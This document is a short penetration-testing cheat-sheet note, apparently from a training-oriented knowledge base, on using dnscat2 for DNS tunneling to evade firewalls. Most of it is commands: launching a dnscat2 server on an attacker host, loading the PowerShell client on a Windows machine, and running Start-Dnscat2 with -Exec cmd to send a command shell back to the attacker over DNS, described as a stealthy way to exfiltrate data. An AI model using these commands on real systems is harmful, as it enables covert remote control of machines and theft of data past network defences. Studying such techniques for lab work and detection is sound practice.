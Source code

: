 ```yaml
---
tags:
  - firewall-evasion
---
```

[Dnscat2](https://github.com/iagox86/dnscat2) is a tunneling tool that uses DNS protocol to send data between two hosts. It uses an encrypted `Command-&-Control` (`C&C` or `C2`) channel and sends data inside TXT records within the DNS protocol.

Usually, every AD domain environment in a corporate network will have its own DNS server, which will resolve hostnames to IP addresses and route the traffic to external DNS servers participating in the overarching DNS system. However, with `dnscat2`, the address resolution is requested from an external server. When a local DNS server tries to resolve an address, data is exfiltrated and sent over the network instead of a legitimate DNS request. Dnscat2 can be an extremely stealthy approach to exfiltrate data while evading firewall detections which strip the HTTPS connections and sniff the traffic.
# Example Usage
1. Start DNScat2 server on attack host:
```shell-session
$ git clone https://github.com/iagox86/dnscat2.git
$ cd dnscat2/server/
$ gem install bundler
$ bundle install

$ sudo ruby dnscat2.rb --dns host=<ATTACKER-IP>,port=53,domain=inlanefreight.local --no-cache
... SNIP ...
... POST CONNECTION in (3) ...

New window created: 1
Session 1 Security: ENCRYPTED AND VERIFIED!
(the security depends on the strength of your pre-shared secret!)

dnscat2>
```
This will provide us a `--secret=<KEY>` , which we will have to provide to our `dnscat2` client on the Windows host so that it can authenticate and encrypt the data that is sent to our external dnscat2 server.
2. [[File Transfer|Transfer]] `dnscat2` project or [dnscat2-powershell](https://github.com/lukebaggett/dnscat2-powershell) based client to Windows:
```powershell
PS > Import-Module .\dnscat2.ps1
```
3. Establish a tunnel to our server, and send back a CMD shell:
```powershell
PS > Start-Dnscat2 -DNSserver <ATTACKER-IP> -Domain inlanefreight.local -PreSharedSecret <KEY> -Exec cmd
```
# Useful Commands
- `?`
- `<COMMAND> -h`